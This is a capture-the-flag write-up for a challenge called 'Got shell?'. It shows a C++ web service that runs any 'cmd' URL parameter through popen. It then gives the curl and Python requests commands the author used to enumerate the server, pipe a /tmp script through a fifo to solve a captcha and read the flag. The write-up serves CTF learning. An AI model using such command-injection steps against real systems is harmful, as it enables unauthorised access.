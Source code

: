 # Day 24 - Got shell? - web, linux

> Can you get a shell? NOTE: The firewall does not allow outgoing traffic & There are no additional paths on the website.

Service: [http://3.93.128.89:1224](http://3.93.128.89:1224)

## Initial Analysis

Looking at the only page for the challenge we get a single-page C program:

```c
#include "crow_all.h"
#include <cstdio>
#include <iostream>
#include <memory>
#include <stdexcept>
#include <string>
#include <array>
#include <sstream>

std::string exec(const char* cmd) {
    std::array<char, 128> buffer;
    std::string result;
    std::unique_ptr<FILE, decltype(&pclose)> pipe(popen(cmd, "r"), pclose);
    if (!pipe) {
        return std::string("Error");
    }
    while (fgets(buffer.data(), buffer.size(), pipe.get()) != nullptr) {
        result += buffer.data();
    }
    return result;
}

int main() {
    crow::SimpleApp app;
    app.loglevel(crow::LogLevel::Warning);

    CROW_ROUTE(app, "/")
    ([](const crow::request& req) {
        std::ostringstream os;
        if(req.url_params.get("cmd") != nullptr){
            os << exec(req.url_params.get("cmd"));
        } else {
            os << exec("cat ./source.html"); 
        }
        return crow::response{os.str()};
    });

    app.port(1224).multithreaded().run();
}
```

From the source its clear, that sending any command in the `cmd` paramater will execute a command on the server. I started by running a quick command against the service with curl which showed us that the program was indeed what it pretended to be.

```
$ curl 'http://3.93.128.89:1224?cmd=id'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

## Problem Analysis

Running through several enumeration steps we find that there is a single binary in the main web root `flag_reader` along with the flag `flag`. Also, the problem setup suggests that we won't be able to get an interactive shell so any command will _have_ to be run through the web shell. Running the service shows that it outputs some text, an addition equation, and an error message about some captcha.

```
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al'
total 44
drwxr-xr-x 1 root root      4096 Dec 24 11:56 .
drwxr-xr-x 1 root root      4096 Dec 24 11:56 ..
----r----- 1 root gotshell    38 Dec 24 08:32 flag
------s--x 1 root gotshell 17576 Dec  5 17:26 flag_reader
-rw-rw-r-- 1 root root     10459 Dec 24 08:32 source.html
$ curl 'http://3.93.128.89:1224?cmd=./flag_reader'
Got shell?
1318462211 + 118538656 = Incorrect captcha :(
```

It wasn't entirely clear to me at first what the "captcha" they were referring to was (but it became more obvious later). Furthermore, since we're running as `nobody` we won't have a lot of things we can write to or execute on the filesystem. Checking `/tmp` we can see that we can't list the directory, but we can write and execute files from it. My guess would be that the problem creator intended for people to write data here, but didn't want participants stealing the flag from each other.

```
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al%20/tmp'
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al%20/'
total 60
drwxr-xr-x    1 root root 4096 Dec 24 23:02 .
drwxr-xr-x    1 root root 4096 Dec 24 23:02 ..
-rwxr-xr-x    1 root root    0 Dec 24 23:02 .dockerenv
lrwxrwxrwx    1 root root    7 Nov 27 09:35 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 16  2019 boot
drwxr-xr-x    5 root root  340 Dec 24 23:45 dev
drwxr-xr-x    1 root root 4096 Dec 24 23:02 etc
drwxr-xr-x    2 root root 4096 Apr 16  2019 home
lrwxrwxrwx    1 root root    7 Nov 27 09:35 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Nov 27 09:35 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Nov 27 09:35 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Nov 27 09:35 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Nov 27 09:35 media
drwxr-xr-x    2 root root 4096 Nov 27 09:35 mnt
drwxr-xr-x    1 root root 4096 Dec 24 11:56 opt
dr-xr-xr-x 1570 root root    0 Dec 24 23:45 proc
drwx------    2 root root 4096 Nov 27 09:36 root
drwxr-xr-x    1 root root 4096 Dec 19 04:22 run
lrwxrwxrwx    1 root root    8 Nov 27 09:35 sbin -> usr/sbin
drwxr-xr-x    2 root root 4096 Nov 27 09:35 srv
dr-xr-xr-x   13 root root    0 Dec  5 18:53 sys
drwx-wx-wx    1 root root 4096 Dec 25 01:34 tmp
drwxr-xr-x    1 root root 4096 Nov 27 09:35 usr
drwxr-xr-x    1 root root 4096 Nov 27 09:36 var
```

## The Clue

At first I tried a bunch of different methods for solving this - looking for ways to remove the system randomness in the captcha, searching the `/proc` filesystem for `./flag_reader` processes, trying to set environment variables for `./flag_reader`, and trying a really long argument looking for a buffer overflow. It turned out the solution was much easier than this.

Returning to the `./flag_reader`, it finally became clear that we were supposed to somehow solve the equation (or "captcha") and write the answer to the process. This would be trivial with an interactive shell, but since we can't get one we have to rig-up a makeshift linux command to do it all for us.

So the problem I then tried to solve was

1. Parse out the captcha from `./flag_reader`
2. Solve the arithmetic
3. Write it back to the process
4. Read the remaining data from `./flag_reader` to get the flag.

This turned out to be the right approach and is the basis for my solution below.

## Solution

Reading data out of the process, writing data back, and then reading again made me think of a reverse shell, so I looked to a [cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for inspiraion. Looking down the page, you can see that if we create a fifo pipe we can do this exact read-write-read operation. Ok, part 3 & 4 solved.

Reading the captcha out of the equation can be done with a few helpful commands - `dd` and `sed` - in order to parse out the "A + B" part of the output. Part 1 done.

Finally, solving the arithmetic can be done with a simple `expr` call. Part 2 done.

Puttnig it all together, I tried to fit this all on a single command line, but couldn't quite get it right. I ended up writing the commands to a script in `/tmp`, setting it to executable, and then using the fifo pipe to ocall the script. I also, tried a bunch of times (to no success), so wrote all of my commands in a ipython prompt to avoid manually writing all of the URL encodings manually. My final call in ipython is below which returns the flag as part of the response. Note: I just jammed on the keyboard to create random filenames in `/tmp`

```python
In [141]: print(requests.get('http://3.93.128.89:1224?cmd='+urllib.parse.quote('rm -f /tmp/qwegjnxbfx /tmp/wersxrgxr ; echo \'#!/bin/sh\nX=\x60dd bs=1 skip=10 count=23|sed \'s/=//g\'\x60\necho $X > /tmp/wrjxesjkxrg\necho \x60expr $X\x60\n
     ...: dd of=/tmp/qwegjnxbfx\' > /tmp/wersxrgxr ; chmod +x /tmp/wersxrgxr ; rm -f /tmp/ff ; mkfifo /tmp/ff ; cat /tmp/ff | ./flag_reader | /tmp/wersxrgxr > /tmp/ff ; ls -al /tmp /tmp/qwegjnxbfx /tmp/wersxrgxr /tmp/wrjxesjkxrg ; cat /tm
     ...: p/wersxrgxr ; cat /tmp/qwegjnxbfx ; cat /tmp/wrjxesjkxrg')).text)

-rw-r--r-- 1 nobody nogroup   40 Dec 24 20:33 /tmp/qwegjnxbfx
-rwxr-xr-x 1 nobody nogroup  114 Dec 24 20:33 /tmp/wersxrgxr
-rw-r--r-- 1 nobody nogroup   22 Dec 24 20:33 /tmp/wrjxesjkxrg

#!/bin/sh
X=`dd bs=1 skip=10 count=23|sed s/=//g`
echo $X > /tmp/wrjxesjkxrg
echo `expr $X`
dd of=/tmp/qwegjnxbfx
= AOTW{d1d_y0u_g3t_4n_1n73r4c71v3_5h3ll}607588343 + 507390427

```

